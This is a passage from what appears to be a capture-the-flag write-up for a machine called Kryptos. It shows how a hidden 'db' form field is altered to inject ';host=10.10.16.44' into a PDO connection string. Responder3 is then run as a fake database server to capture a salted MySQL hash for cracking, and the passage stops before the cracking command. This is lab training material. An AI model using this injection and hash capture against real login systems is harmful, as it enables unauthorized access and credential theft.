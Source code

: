 
## Login bypass

By inspecting the source code of ```index.php```, it is possible to see that there are two hidden fields: 

1. **db**, which contains the value _cryptor_;
2. **token**, which contains an anti-XSRF token that changes to each refresh.

By modifying the value of db and putting something arbitrary, we get an error message: 

<pre><b>PDOException code: 1044</b></pre>

This error tells us that the database driver used is **PDO** and this input takes part to the construction of the connection string to the DB. We could find something similar to [this](https://www.php.net/manual/en/pdo.construct.php):

<pre>/* Connect to a MySQL database using driver invocation */
$dsn = 'mysql:dbname=cryptos';</pre>

but we would like to obtain

<pre>$dsn = 'mysql:dbname=cryptos<b>;host=pentest_box_ip_address_here</b>';</pre>

Therefore, we have to modify **db** accordingly:

	cryptos -> cryptos;host=10.10.16.44	

## Database Poisoning

We have to provide a fake server to allow the remote host to authenticate against us. [Responder3](https://github.com/skelsec/Responder3) comes in help:

	root@pentestbox:~# python3 ./Responder3.py -I tun0 -4 -6 -p examples/config_test.py

The provided parameters represent:

- **-p examples/config_test.py** --- Configuration file (Python).
- **-I tun0** --- Interface to bind to.
- **-4** --- IP version 4 to be used.
- **-6** --- IP version 6 to be used.

Let's then login with random credentials and: 

![](/images/kryptos/responder.png)

	$mysqlna$4141414141414141414141414141414141414141*b25658e4107b15ab804df5d06e47ee40a97f2a53

In this string, we do have the hashing algorithm used (_mysqlna_), the salt and the salted hash of the password used to login against the DB. With John the Ripper, it is possible to crack it. Lets put first the string obtained into a file, then run John:
